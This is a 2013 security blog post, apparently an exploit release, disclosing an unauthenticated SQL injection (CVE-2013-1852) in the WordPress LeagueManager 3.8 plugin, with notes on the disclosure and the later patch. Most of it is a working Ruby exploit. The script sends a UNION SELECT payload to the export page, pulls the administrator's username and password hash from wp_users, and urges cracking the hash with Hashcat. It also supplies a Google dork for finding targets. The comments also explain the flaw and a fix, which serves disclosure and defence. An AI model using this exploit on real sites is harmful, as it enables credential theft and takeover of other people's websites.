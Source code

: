 ```yaml
---
layout: post
title: WordPress LeagueManager Plugin v3.8 SQL Injection
date: '2013-03-13T23:53:00.000-06:00'
author: JM
tags:
- wordpress
- information security
- plugin exploit
- leaguemanager
- exploit release
- sql injection
- exploits
- exploit development
- leaguemanager 3.8
modified_time: '2013-03-17T20:45:54.656-06:00'
blogger_id: tag:blogger.com,1999:blog-4063990595241430327.post-91475241175704547
blogger_orig_url: http://www.pwnage.io/2013/03/wordpress-leaguemanager-plugin-v38-sql.html
---
```


I've been working on auditing WordPress plugins over the past while for vulnerabilities. This one has a fairly large install base (google the google dork), and this exploit through a publicly available input.

As stated in the advisory the staff at WordPress (plugins@wordpress.org) have decided to close down the plugins since the original author has decided discontinue his involvement in the project: [http://wordpress.org/support/topic/plugin-leaguemanager-plugin-future](http://wordpress.org/support/topic/plugin-leaguemanager-plugin-future) the result is that unfortunately users will have to patch the vulnerability themselves. I've included a small mitigation technique in the advisory to address this.

Update:

The original author has released a patch for the vulnerability and the plugin has been brought back online: [http://wordpress.org/extend/plugins/leaguemanager/changelog/](http://wordpress.org/extend/plugins/leaguemanager/changelog/) please upgrade to the latest version 3.8.1.

```
#!/usr/bin/ruby
#
# Exploit Title: WordPress LeagueManager Plugin v3.8 SQL Injection
# Google Dork: inurl:"/wp-content/plugins/leaguemanager/"
# Date: 13/03/13
# Exploit Author: Joshua Reynolds
# Vendor Homepage: http://wordpress.org/extend/plugins/leaguemanager/
# Software Link: http://downloads.wordpress.org/plugin/leaguemanager.3.8.zip
# Version: 3.8
# Tested on: BT5R1 - Ubuntu 10.04.2 LTS
# CVE: CVE-2013-1852
#-----------------------------------------------------------------------------------------
#Description:
#
#An SQL Injection vulnerability exists in the league_id parameter of a function call made
#by the leaguemanager_export page. This request is processed within the leaguemanager.php:
#
#if ( isset($_POST['leaguemanager_export']))
#               $lmLoader->adminPanel->export($_POST['league_id'], $_POST['mode']);
#
#Which does not sanitize of SQL injection, and is passed to the admin/admin.php page
#into the export( $league_id, $mode ) function which also does not sanitize for SQL injection
#when making this call: $this->league = $leaguemanager->getLeague($league_id);
#The information is then echoed to a CSV file that is then provided.
#
#Since no authentication is required when making a POST request to this page,
#i.e /wp-admin/admin.php?page=leaguemanager-export the request can be made with no established
#session.
#
#Fix:
#
#A possible fix for this would be to cast the league_id to an integer during any
#of the function calls. The following changes can be made in the leaguemanager.php file:
#$lmLoader->adminPanel->export((int)$_POST['league_id'], $_POST['mode']);
#
#These functions should also not be available to public requests, and thus session handling
#should also be checked prior to the requests being processed within the admin section.
#
#The responsible disclosure processes were distorted by the fact that the author no longer
#supports his well established plugin, and there are currently no maintainers. After
#e-mailing the folks over at plugins@wordpress.org they've decided to discontinue the plugin
#and not patch the vulnerability.
#
#The following ruby exploit will retrieve the administrator username and the salted
#password hash from a given site with the plugin installed:
#------------------------------------------------------------------------------------------
#Exploit:

require 'net/http'
require 'uri'

if ARGV.length == 2
post_params = {
'league_id' => '7 UNION SELECT ALL user_login,2,3,4,5,6,7,8,'\
'9,10,11,12,13,user_pass,15,16,17,18,19,20,21,22,23,24 from wp_users--',
'mode' => 'teams',
'leaguemanager_export' => 'Download+File'
}

target_url = ARGV[0] + ARGV[1] + "/wp-admin/admin.php?page=leaguemanager-export"

begin
resp = Net::HTTP.post_form(URI.parse(target_url), post_params)
rescue
puts "Invalid URL..."
end

if resp.nil?
print_error "No response received..."

elsif resp.code != "200"
puts "Page doesn't exist!"
else
admin_login = resp.body.scan(/21\t(.*)\t2.*0\t(.*)\t15/)

if(admin_login.length > 0)
puts "Username: #{admin_login[0][0]}"
puts "Hash: #{admin_login[0][1]}"
puts "\nNow go crack that with Hashcat :)"
else
puts "Username and hash not received. Maybe it's patched?"
end
end
else
puts "Usage: ruby LeagueManagerSQLI.rb \"http://example.com\" \"/wordpress\""
end

#Shout outs: Graycon Group Security Team, Red Hat Security Team, Miss Umer, Tim Williams, Dr. Wu, friends & family.
#
#Contact:
#Mail: infosec4breakfast@gmail.com
#Blog: infosec4breakfast.com
#Twitter: @jershmagersh
#Youtube: youtube.com/user/infosec4breakfast
```
